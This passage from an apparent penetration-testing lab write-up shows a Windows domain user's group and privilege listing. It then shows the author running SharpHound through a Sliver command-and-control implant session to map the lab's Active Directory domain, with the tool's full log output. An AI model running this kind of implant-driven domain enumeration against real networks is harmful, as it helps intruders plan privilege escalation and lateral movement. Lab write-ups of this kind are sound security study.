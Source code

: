 ```terminal
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group,
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group,
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group,
PUPPET\employees                                  Group                    S-1-5-21-3066630505-2324057459-3046381011-1105 Mandatory group, Enabled by default, Enabled group,
Authentication authority asserted identity        Well-known group         S-1-18-1                                      Mandatory group, Enabled by default, Enabled group,
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group,


Privilege Name                Description                                       State
============================= ================================================= ===========================
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled 
```

Note that we are a domain user of the "employees" group but don't seem to have any special privileges. Our next step is gathering data about the ad environment via Bloodhound. We can directly run the sharp-hound-4 assembly from the sliver armory to achieve this:

```terminal
sliver (puppet-mtls) > cd c:\\temp
sliver (puppet-mtls) > sharp-hound-4 -s -t 300 -- -c all,gpolocalgroup

[*] sharp-hound-4 output:
2024-10-17T04:33:04.4654394-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-17T04:33:04.8250883-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-17T04:33:04.8882233-07:00|INFORMATION|Initializing SharpHound at 4:33 AM on 10/17/2024
2024-10-17T04:33:05.2644779-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for puppet.vl : DC01.puppet.vl
2024-10-17T04:33:05.3589164-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-17T04:33:05.7343716-07:00|INFORMATION|Beginning LDAP search for puppet.vl
2024-10-17T04:33:05.8288053-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-17T04:33:05.8288053-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-17T04:33:36.0752344-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 39 MB RAM
2024-10-17T04:34:02.4117649-07:00|INFORMATION|Consumers finished, closing output channel
2024-10-17T04:34:03.0560925-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-17T04:34:04.1011067-07:00|INFORMATION|Status: 126 objects finished (+126 2.172414)/s -- Using 49 MB RAM
2024-10-17T04:34:04.1323414-07:00|INFORMATION|Enumeration finished in 00:00:58.3942019
2024-10-17T04:34:04.2889989-07:00|INFORMATION|Saving cache with stats: 85 ID to type mappings.
 87 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
```